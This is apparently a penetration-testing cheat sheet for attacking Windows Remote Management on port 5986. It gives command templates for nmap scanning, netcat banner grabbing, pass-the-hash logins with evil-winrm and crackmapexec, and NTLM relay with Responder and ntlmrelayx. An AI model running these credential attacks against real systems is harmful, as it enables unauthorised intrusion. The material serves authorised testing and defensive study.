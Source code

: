 ## Penetration Testing Techniques

### External Reconnaissance

#### Port Scanning

*   **Tool:** \[\[Nmap]]

    ```bash
    nmap <target_ip> -p 5986
    ```
* **Description:** Identifies if the target service is running on the target by scanning target port.

#### Service Enumeration

*   **Tool:** \[\[NetCat]]

    ```bash
    nc <target_ip> 5986
    ```
* **Description:** Retrieves the service banner to identify the software version and potential vulnerabilities.

### Initial Access

#### Pass-the-Hash

*   **Tool:** \[\[Evil-WinRM Cheat Sheet]]

    ```bash
    evil-winrm -i <target_ip> -u <username> -H <NTLM_hash> -S
    ```

\


*   **Tool:** \[\[CrackMapExec]]

    ```bash
    crackmapexec winrm <target_ip> -u <username> -H <NTLM_hash>
    ```
* **Description:** Uses an NTLM hash to authenticate with the WinRM service without needing the plaintext password.

#### \[\[Relay Attacks]]

*   **Tool:** \[\[Responder Cheat Sheet]], \[\[Impacket-NTLMRelayX Cheat Sheet]]

    ```bash
    impacket-ntlmrelayx -tf targets.txt
    sudo responder -I <interface>
    ```
* **Description:** Relay captured credentials to the target service, potentially gaining unauthorized access.
